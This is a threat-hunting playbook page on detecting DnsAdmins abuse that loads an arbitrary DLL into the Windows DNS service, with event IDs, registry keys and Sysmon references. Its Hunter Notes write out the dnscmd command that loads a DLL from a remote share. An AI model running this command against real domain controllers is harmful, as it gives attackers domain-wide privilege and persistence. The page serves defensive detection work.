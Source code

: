 # Windows DNS Server dll injection via RPC (DnssrvOperation2)
## Technique ID
T0000\_dns\_serverdll\_injection


## Description
The Windows DNS Server management protocol, which is based on RPC, allows
DnsAdmins and higher privileged Users to load arbitary dlls as plugins into the
DNS service

You can find a detailed description
[here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).


## Hypothesis
Adversaries might be abusing DNSAdmin privileges to escalate privileges to
Domain Admin and achieve persistence by loading arbitary dlls as plugins into
the DNS service in my environment.

## Attack Simulation

| Script  | Short Description | Author | 
|---------|---------|---------|
| \[TBD\](TBD)| TBD | \[TBD\](TBD) |



## Recommended Data Sources

| ATT&CK Data Source | Event Log |
|---------|---------|
|Registry Monitoring| Sysmon|
|DNS Logs|Microsoft-Windows-DNSServer|
|Process Monitoring|Sysmon


## Specific Events (dnscmd execution)

| Source | EventID | EventField | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| Sysmon | 13 | EventType |SetType - TargetObject gets set (see next line) | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Sysmon | 13 | TargetObject |REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\DNS\Parameters\ServerLevelPluginDll gets set to the dll path | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="Setting" | serverlevelplugindll (**case insensitive**), parameter as set by the attacker when executing dnscmd | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="NewValue" | \\192.168.0.149\dll\wtf.dll (**case insensitive**), parameter to the /serverlevelplugindll command as executed by the attacker | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |


## Specific Events (DNS service restarted)
| Source | EventID | EventField | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 771 | | Event gets logged when a dll plugin is loaded by the DNS service |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | EventData Name="DNS_EVENT_PLUGIN_DLL_LOAD_OK" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Sysmon | 7 | ImageLoaded | icmp.dll, oleauth32.dll, wtf.dll (specified plugin dll) | details: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |


## Specific Events (when loading the dll failed)
| Source | EventID | EventField | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 150 | EventData Name="DNS_EVENT_PLUGIN_INIT_FAILED" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 150 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |

## Recommended Configuration(s)
| Title | Description | Reference|
|---------|---------|---------|
| dns\_serverdll\_injection | Sysmon configuration| [T0000\_dns\_serverdll\_injection.xml](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/attack_matrix/windows/sysmon_configs/T0000_dns_serverdll_injection.xml)

## Data Analytics 

| Analytic Type  | Analytic Logic | Analytic Data Object |
|--------|---------|---------|
| Behavioral Analytics|  TBD | [TBD]\(TBD\) | 


## Hunter Notes
We assume the attacker has a privileged user to reconfigure the DNS service:

The attack has to be executed in two steps:

  1. dnscmd.exe dc1.lab.internal /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    - Whereas the dll has to be as a special DNS server plugin dll.
      ([GitHub 0xdim69](https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp))
    - A registry parameter gets added: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll and set to the value \\\\192.168.0.149\dll\wtf.dll

  2. The DNS service gets restarted
    - The DLL is loaded into dns.exe and the API functions are called.

## Hunting Techniques Recommended

- [x] Grouping
- [x] Searching
- [ ] Clustering
- [ ] Stack Counting
- [ ] Scatter Plots
- [ ] Box Plots
- [ ] Isolation Forests

